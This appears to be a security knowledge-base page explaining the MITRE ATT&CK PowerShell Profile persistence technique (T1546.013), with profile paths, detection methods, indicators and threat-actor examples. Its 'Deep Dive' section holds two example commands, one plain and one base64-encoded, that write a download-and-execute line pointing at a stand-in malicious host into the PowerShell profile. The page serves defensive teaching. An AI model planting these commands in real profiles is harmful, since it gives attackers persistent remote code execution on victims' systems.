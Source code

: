 ```yaml
---
description: PowerShell Profile [T1546.013]
icon: file
---
```


# PowerShell Profile

## Information

* Name: PowerShell Profile
* ID: T1546.013
* Tactics: [TA0004](../), [TA0003](../../ta0003/)
* Technique: [T1546](./)

## Introduction

The PowerShell Profile sub-technique (T1546.013) in the MITRE ATT\&CK framework involves adversaries modifying or creating malicious PowerShell profiles to execute unauthorized commands or scripts automatically upon the launch of PowerShell. PowerShell profiles are scripts that run each time a PowerShell session starts, allowing users to customize their environment. Attackers exploit this functionality by embedding malicious commands or scripts within these profiles to achieve persistence, execute payloads, or maintain access to compromised systems without user interaction.

## Deep Dive Into Technique

PowerShell profiles are scripts that are executed automatically whenever a new PowerShell session is initiated. These profiles can exist in multiple locations, including:

* System-wide profiles:
  * `%windir%\System32\WindowsPowerShell\v1.0\profile.ps1`
  * `%windir%\SysWOW64\WindowsPowerShell\v1.0\profile.ps1`
* User-specific profiles:
  * `%UserProfile%\Documents\WindowsPowerShell\profile.ps1`
  * `%UserProfile%\Documents\PowerShell\profile.ps1`

Attackers leverage these profiles by modifying existing scripts or creating new ones to execute malicious commands or payloads automatically. Common malicious actions include:

* Executing reverse shells or remote access trojans (RATs) upon PowerShell startup.
* Downloading and executing additional payloads from remote servers.
* Maintaining persistence by ensuring execution every time PowerShell is launched.
* Performing reconnaissance or data exfiltration silently in the background.

Attackers typically achieve this by:

1.  Modifying or creating the profile script directly through command-line or scripting methods:

    ```powershell
    echo "Invoke-WebRequest -Uri 'http://malicious.example.com/payload.ps1' | Invoke-Expression" >> $profile
    ```
2.  Obfuscating malicious commands within the profile script to evade detection:

    ```powershell
    $encodedCommand = 'cG93ZXJzaGVsbCAtbm9wcm9maWxlIC1jb21tYW5kICJJbnZva2UtV2ViUmVxdWVzdCAtVVJJIGh0dHA6Ly9tYWxpY2lvdXMuZXhhbXBsZS5jb20vcGF5bG9hZC5wc2wgfCBJbnZva2UtRXhwcmVzc2lvbiIK'
    powershell -EncodedCommand $encodedCommand
    ```
3. Utilizing administrative privileges to place malicious scripts into system-wide profiles, affecting all users on the system.

## When this Technique is Usually Used

Attackers typically utilize the PowerShell Profile persistence method during the following attack scenarios and stages:

* **Persistence Stage**: After initial compromise, attackers embed malicious commands into PowerShell profiles to ensure continued access across system reboots and user logins.
* **Privilege Escalation**: If attackers gain administrative privileges, they may modify system-wide profiles, affecting all users and potentially escalating privileges further.
* **Execution Stage**: Malicious commands embedded in profiles often download and execute secondary payloads, facilitating lateral movement or data exfiltration.
* **Defense Evasion**: Attackers leverage PowerShell profiles to execute commands without directly invoking suspicious scripts or binaries, thus evading traditional detection mechanisms.

## How this Technique is Usually Detected

Detection methods for malicious PowerShell profile modifications include:

* **File Integrity Monitoring (FIM)**:
  * Monitoring profile scripts for unauthorized changes or creations.
  * Detecting unexpected modifications to `%UserProfile%\Documents\WindowsPowerShell\profile.ps1` or system-wide profile locations.
* **Endpoint Detection and Response (EDR) Solutions**:
  * Monitoring PowerShell process creation events and associated script executions.
  * Alerting on suspicious PowerShell profile modifications or unusual execution patterns.
* **PowerShell Logging and Auditing**:
  * Enabling script block logging (`Event ID 4104`) to capture executed commands.
  * Enabling module logging (`Event ID 4103`) to log module and script invocations.
  * Monitoring Windows Event Logs for suspicious PowerShell activity.
* **Behavioral Analysis**:
  * Detecting anomalous PowerShell activity, such as connections to external IP addresses or domains immediately after PowerShell startup.
  * Identifying unusual parent-child process relationships involving PowerShell.

Indicators of Compromise (IoCs) include:

* Unexpected presence or modification of:
  * `%UserProfile%\Documents\WindowsPowerShell\profile.ps1`
  * `%windir%\System32\WindowsPowerShell\v1.0\profile.ps1`
* Suspicious encoded commands or obfuscated scripts within profile scripts.
* Unusual network connections initiated by PowerShell processes immediately upon launch.

## Why it is Important to Detect This Technique

Early detection of malicious PowerShell profile modifications is critical due to the following impacts:

* **Persistence and Long-Term Access**:
  * Attackers leverage PowerShell profiles to maintain persistent access, potentially remaining undetected for extended periods.
* **Privilege Escalation**:
  * Malicious modifications to system-wide profiles can impact all users, facilitating privilege escalation and lateral movement.
* **Data Exfiltration and Espionage**:
  * Automated execution of malicious scripts enables attackers to silently exfiltrate sensitive data, intellectual property, or credentials.
* **Defense Evasion**:
  * PowerShell profile-based persistence methods often bypass traditional antivirus and signature-based detection systems, making them challenging to detect.
* **Operational Impact**:
  * Undetected malicious activities can lead to significant operational disruptions, data breaches, reputational damage, and regulatory compliance violations.

Therefore, promptly detecting and responding to unauthorized PowerShell profile modifications is essential to minimize potential damage and maintain the security posture of the organization.

## Examples

Real-world examples and scenarios involving malicious PowerShell profile usage include:

* **APT33 (Elfin)**:
  * Iranian threat actor known to leverage malicious PowerShell profiles for persistence.
  * Used PowerShell profiles to execute payloads that communicated with remote command-and-control (C2) servers, facilitating espionage activities.
* **Empire Framework**:
  * Popular post-exploitation framework that includes built-in modules for establishing persistence via PowerShell profiles.
  * Attackers using Empire often insert malicious commands into profiles to automatically reconnect compromised hosts to attacker-controlled infrastructure.
* **FIN7 Group**:
  * Cybercriminal group known for financial attacks targeting retail and hospitality sectors.
  * Utilized malicious PowerShell profiles to maintain persistence and execute payloads silently in victim environments, enabling lateral movement and data theft.
* **Real-World Attack Scenario**:
  1. An attacker gains initial access via phishing email containing a malicious attachment.
  2. Upon execution, the attacker modifies the user's PowerShell profile (`profile.ps1`) to include a command that downloads and executes a remote payload upon every PowerShell session start.
  3. Each time the victim opens PowerShell, the malicious payload executes silently, establishing persistent access and enabling further malicious actions such as data exfiltration or lateral movement.

These real-world examples demonstrate the practical application and potential impact of malicious PowerShell profile modifications, underscoring the importance of proactive detection and response strategies.
